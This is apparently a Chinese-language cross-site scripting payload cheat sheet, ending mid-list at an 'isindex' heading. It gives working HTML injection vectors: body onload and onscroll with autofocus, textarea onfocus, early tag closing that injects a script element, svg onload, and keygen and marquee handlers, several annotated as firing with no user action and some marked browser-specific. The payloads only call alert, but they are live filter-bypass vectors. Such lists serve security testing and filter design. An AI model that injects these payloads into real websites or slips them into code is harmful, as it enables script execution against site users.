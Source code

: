 ```
<body/onload=alert("xss");>
```

利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发

```
<body
onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```

### \<textarea>

通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发

```html
<textarea onfocus=alert("xss"); autofocus>
```



提前闭合标签

```html
<textarea> </textarea><script>alert("aaa")</script></textarea>
```



```html
<texteara>
<script>
document.addEventListener("DOMContentLoaded", function(event) { 
    alert('aaa');
});
</script>
</texteara>
```



```
<svg/onload=prompt`sec`>
```



### \<keygen>

```
<keygen autofocus onfocus=alert(1)> //仅限火狐
```

### \<marquee>

```
<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以
```

### \<isindex>
